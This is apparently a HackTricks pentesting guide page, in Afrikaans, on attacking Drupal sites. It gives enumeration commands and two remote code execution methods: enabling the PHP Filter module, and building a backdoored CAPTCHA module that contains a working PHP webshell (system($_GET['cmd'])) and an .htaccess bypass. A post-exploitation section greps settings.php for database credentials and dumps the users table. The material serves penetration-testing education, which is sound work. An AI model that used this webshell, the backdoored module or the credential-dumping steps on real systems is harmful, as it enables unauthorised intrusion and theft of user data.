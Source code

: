 # Drupal

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Discovery

* Check **meta**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Node**: Drupal **indekseer sy inhoud met behulp van nodes**. 'n Node kan **enigiets bevat** soos 'n blogpos, opiniepeiling, artikel, ens. Die bladsy-URI's is gewoonlik in die vorm `/node/<nodeid>`.
```bash
curl drupal-site.com/node/1
```
## Opsomming

Drupal ondersteun standaard **drie tipes gebruikers**:

1. **`Administrateur`**: Hierdie gebruiker het volledige beheer oor die Drupal-webwerf.
2. **`Geverifieerde Gebruiker`**: Hierdie gebruikers kan op die webwerf aanmeld en operasies uitvoer soos byvoeging en wysiging van artikels gebaseer op hul regte.
3. **`Anoniem`**: Alle webwerfbesoekers word as anoniem aangedui. Standaard word hierdie gebruikers slegs toegelaat om plasings te lees.

### Weergawe

* Kontroleer `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Nuwer installeer van Drupal blokkeer standaard toegang tot die `CHANGELOG.txt` en `README.txt` lêers.
{% endhint %}

### Gebruikersnaam enumerasie

#### Registreer

In _/user/register_ probeer net om 'n gebruikersnaam te skep en as die naam reeds geneem is, sal daar 'n kennisgewing wees:

![](<../../.gitbook/assets/image (325).png>)

#### Versoek nuwe wagwoord

As jy 'n nuwe wagwoord vir 'n bestaande gebruikersnaam versoek:

![](<../../.gitbook/assets/image (900).png>)

As jy 'n nuwe wagwoord vir 'n nie-bestaande gebruikersnaam versoek:

![](<../../.gitbook/assets/image (304).png>)

### Kry aantal gebruikers

Deur _/user/\<number>_ te besoek, kan jy die aantal bestaande gebruikers sien, in hierdie geval is dit 2 aangesien _/users/3_ 'n nie gevind fout teruggee:

![](<../../.gitbook/assets/image (330).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1) (1).png>)

### Versteekte bladsye

**Fuzz `/node/$` waar `$` 'n nommer is** (van 1 tot 500 byvoorbeeld).\
Jy kan **versteekte bladsye** (toets, ontwikkeling) vind wat nie deur die soekenjins verwys word nie.

#### Geïnstalleerde modules inligting
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Outomaties
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### Met PHP Filter Module

{% hint style="warning" %}
In ouer weergawes van Drupal **(voor weergawe 8)**, was dit moontlik om as 'n administrateur in te teken en die `PHP filter`-module te **aktiveer**, wat "Ingeslote PHP-kode/snippets toelaat om geëvalueer te word."
{% endhint %}

Jy benodig die **plugin php om geïnstalleer te wees** (kontroleer dit deur toegang te verkry tot _/modules/php_ en as dit 'n **403** terugstuur, dan **bestaan** dit, indien **nie gevind nie**, dan is die **plugin php nie geïnstalleer nie**)

Gaan na _Modules_ -> (**Kontroleer**) _PHP Filter_ -> _Stoor konfigurasie_

![](<../../.gitbook/assets/image (247) (1).png>)

Klik dan op _Voeg inhoud by_ -> Kies _Basiese Bladsy_ of _Artikel_ -> Skryf _php shellcode in die liggaam_ -> Kies _PHP-kode_ in _Teksformaat_ -> Kies _Voorbeeld_

![](<../../.gitbook/assets/image (335).png>)

Laastens, kry net toegang tot die nuut geskepte node:
```bash
curl http://drupal-site.local/node/3
```
### Installeer PHP Filter Module

Vanaf weergawe **8 en hoër, is die** [**PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **module nie standaard geïnstalleer nie**. Om hierdie funksionaliteit te benut, moet ons die module self **installeer**.

1. Laai die mees onlangse weergawe van die module af van die Drupal-webwerf.
1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Nadat dit afgelaai is, gaan na **`Administrasie`** > **`Verslae`** > **`Beskikbare opdaterings`**.
3. Klik op **`Deursoek`**, kies die lêer van die gids waar ons dit afgelaai het, en klik dan op **`Installeer`**.
4. Nadat die module geïnstalleer is, kan ons op **`Inhoud`** klik en **'n nuwe basiese bladsy skep**, soortgelyk aan hoe ons dit in die Drupal 7-voorbeeld gedoen het. Wees weer seker om **`PHP-kode` vanaf die `Teksformaat`-keuslys te kies**.

### Agterdeur Module

'n Agterdeur module kan geskep word deur **'n dop by 'n bestaande module te voeg**. Modules kan op die drupal.org-webwerf gevind word. Laat ons 'n module soos [CAPTCHA](https://www.drupal.org/project/captcha) kies. Blaai af en kopieer die skakel vir die tar.gz [argief](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Laai die argief af en onttrek sy inhoud.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Skep 'n **PHP-webshell** met die inhoud:
```php
<?php
system($_GET["cmd"]);
?>
```
* Volgende, moet ons 'n **`.htaccess`** lêer skep om onsself toegang tot die vouer te gee. Dit is noodsaaklik aangesien Drupal direkte toegang tot die **`/modules`** vouer ontken.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Die konfigurasie hierbo sal reëls toepas vir die /-vouer wanneer ons 'n lêer in /modules aanvra. Kopieer albei van hierdie lêers na die captcha-vouer en skep 'n argief.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Met die aanname dat ons **administratiewe toegang** tot die webwerf het, klik op **`Bestuur`** en dan **`Uitbrei`** aan die kantlyn. Volgende, klik op die **`+ Installeer nuwe module`** knoppie, en ons sal na die installeerbladsy geneem word, soos `http://drupal-site.local/admin/modules/install` Blaai na die agterdeur Captcha-argief en klik **`Installeer`**.
* Sodra die installasie suksesvol is, blaai na **`/modules/captcha/shell.php`** om opdragte uit te voer.

## Na-uitbuiting

### Lees settings.php
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Stort gebruikers vanaf DB
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Verwysings

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag. 

</details>
